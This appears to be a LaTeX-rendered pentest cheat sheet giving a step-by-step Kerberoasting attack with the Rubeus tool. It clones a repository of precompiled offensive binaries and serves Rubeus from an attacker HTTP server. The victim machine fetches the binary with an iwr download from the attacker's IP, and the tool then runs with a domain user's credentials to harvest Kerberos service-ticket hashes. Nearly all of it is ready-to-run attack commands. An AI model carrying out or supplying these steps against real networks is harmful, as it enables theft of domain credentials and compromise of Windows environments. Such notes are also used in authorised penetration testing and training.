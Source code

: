 \documentclass{assets/ipesethesis}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\ExtensionTok}[1]{#1}
\newcommand{\FunctionTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
\newcommand{\NormalTok}[1]{#1}
\begin{document}
\textbf{Rubeus.exe} is a tool that can perform Kerberoasting attack into the victim machine.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Download rubeus.exe on attacker machine

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{git}\NormalTok{ clone https://github.com/r3motecontrol/Ghostpack-CompiledBinaries}
\end{Highlighting}
\end{Shaded}
\item
  Send the rubeus to the victim machine and execute it

  \begin{itemize}
  \item
    on attacker machine

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{python}\NormalTok{ -m http.server 80}
\end{Highlighting}
\end{Shaded}
  \item
    on victim machine

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{iwr}\NormalTok{ -uri http://10.}\FunctionTok{10}\NormalTok{.}\FunctionTok{10}\NormalTok{.}\FunctionTok{11}\NormalTok{/Rubeus.}\FunctionTok{exe}\NormalTok{ -OutFile Rubeus.}\FunctionTok{exe}
\end{Highlighting}
\end{Shaded}
  \end{itemize}
\item
  Execute ther Kerberoasting attack on the victim machine (in this example we will perform a Kerberoasting with alternate credentials)

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{C:\textbackslash{}temp\textbackslash{}Rubeus.}\FunctionTok{exe}\NormalTok{ -> check the roating possibilities}
\NormalTok{C:\textbackslash{}temp\textbackslash{}Rubeus.}\FunctionTok{exe}\NormalTok{ kerberoast /creduser:domain.}\FunctionTok{local}\NormalTok{\textbackslash{}user /credpassword:password1234}
\end{Highlighting}
\end{Shaded}
\end{enumerate}
\end{document}
